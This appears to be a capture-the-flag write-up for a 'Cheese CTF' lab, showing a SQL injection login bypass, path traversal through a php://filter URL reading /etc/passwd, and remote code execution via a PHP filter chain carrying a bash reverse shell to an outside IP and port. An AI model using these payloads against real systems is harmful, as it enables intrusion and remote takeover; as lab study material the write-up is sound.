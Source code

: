 # Cheese CTF

### Flags

The website is about cheese: <br />
![image](https://github.com/user-attachments/assets/6570b944-15be-45be-b26f-cd57fa11a286)<br />
After moving a bit through the website and some basic enumeration, the only page that seems to be an entry point is the login page: <br />
![image](https://github.com/user-attachments/assets/3216996f-0906-4195-a5cc-c0f725089dfd)<br />
I started trying some basic SQL Injection techniques such as 'or 1=1--, but it didn't work. I even tried to use `sqlmap` but nothing, so I went back to manual enumeration. So, after one frustrating hour of trial and error, I was able to log in with the payload `' || 1=1;-- -`.<br />
The main thing that I learned with this is that, depending on the database, `||` substitutes `or`, and that it is a good practice to insert one more dash `-` to make sure that the comment symbol `--` gets parsed correctly. <br />
I am now inside an admin panel:<br />
![image](https://github.com/user-attachments/assets/7586859f-336d-46f6-8534-d2eeb665a90f)<br />
Moving a bit in the panel, I'm noticing some strange URLs:<br />
![image](https://github.com/user-attachments/assets/dc7e0d10-0957-4fca-b619-f2d165985e53)<br />
The server is using a **PHP wrapper filter**, which is a technique used to correctly read contents of a given file, even if it is encoded somehow. The first thing that came to my mind is to check for a path traversal vulnerability. So i used the following URL: `http://10.10.207.231/secret-script.php?file=php://filter/resource=../../../../../../../etc/passwd`, and it worked:<br />
![image](https://github.com/user-attachments/assets/773e114a-7848-498b-a85a-6b7329044952)<br />
Next, i tried to perform a RFI(Remote File inclusion) attack, by opening a web server on my machine and using the following URL: `10.10.207.231/secret-script.php?file=php://filter/resource=http://10.11.108.100/test.txt`. But it didn't work.
After some online search I found [this](https://github.com/synacktiv/php_filter_chain_generator/blob/main/README.md) github repo showing how to generate a php://filter payload for RCE. I copied the code in a file named `test.py` and used the following command to create a reverse shell payload: <br />
`python3 test.py --chain "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/10.11.108.100/4444 0>&1\"'); ?>"`. <br />
So i copied the payload starting from "php://...." and put it inside the URL. So the final URL looked something like: `http://10.10.38.241/secret-script.php?file=php://filter/convert.iconv.UTF8......`. After opening a netcat listener, I got remote access(flags can be found at the end of this writeup):<br />
![image](https://github.com/user-attachments/assets/48cdd9d4-f15c-4921-ba9f-7e87c882d241)<br />
Now let's stabilize the shell:

    python3 -c 'import pty;pty.spawn("/bin/bash")'
    CTRL+Z
    stty raw -echo; fg
    export TERM=xterm


- What is the user.txt flag? 
- What is the root.txt flag?
